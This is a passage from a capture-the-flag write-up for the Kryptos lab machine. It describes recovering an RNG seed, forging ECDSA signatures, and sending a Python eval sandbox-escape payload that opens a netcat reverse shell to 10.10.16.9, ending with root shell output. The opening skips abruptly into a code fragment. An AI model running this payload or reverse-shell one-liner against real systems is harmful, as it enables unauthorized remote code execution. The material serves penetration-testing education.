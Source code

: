 ```creds.txt``` is a VimCrypt02 file. This file has been encrypted with Blowfish, which is a block-cypher vulnerable from plain-text attacks as well. The file ```creds.old``` makes us suspect that ```creds.txt``` has the same structure, so we could know the first part of it, ```rijndael / ```. 
	        print "Seed not found yet..."
	    else:
	        print "Seed found!"
	        print seed
	        break

After some minutes, we get the seed:

	...
	Seed not found yet...
	Seed not found yet...
	Seed not found yet...
	Seed found!
	41205234917818974876430183060164741391
	root@pentestbox:~# 

We have to create now a proper payload for our attack.

In the source code, it is possible to see that ```builtins``` are disabled. By Googling, we find out [how to bypass this countermeasure](https://stackoverflow.com/questions/35804961/python-eval-is-it-still-dangerous-if-i-disable-builtins-and-attribute-access) and [how to run actual code](https://www.floyd.ch/?p=584). We build our payload accordingly:

	[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('" + "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 9119 >/tmp/f" + "')

So [our script](./resources/kryptos/break_signature_rce.py) will contain:

	seed = int(sys.argv[1])
    rand = secure_rng(seed) + 1
    sk = SigningKey.from_secret_exponent(rand, curve=NIST384p)
    vk = sk.get_verifying_key()
    expr = "[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('" + "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 9119 >/tmp/f" + "')"
    req_data = { 'expr': expr, 'sig': sign(str.encode(expr)) }
    r = requests.post("http://127.0.0.1:81/eval", json=req_data)
    print r.text

So we setup a netcat listener and we run finally:

	root@pentestbox:~# python break_signature_rce.py 41205234917818974876430183060164741391
	
	root@pentestobx:~# nc -lnvp 9119
	listening on [any] 9119 ...
	connect to [10.10.16.9] from (UNKNOWN) [10.10.10.129] 55648
	/bin/sh: 0: can't access tty; job control turned off
	# whoami
	root
	# 

And we got root on Kryptos!


#### Thank you for reading this write-up. Feedback is appreciated! Happy hacking :) 

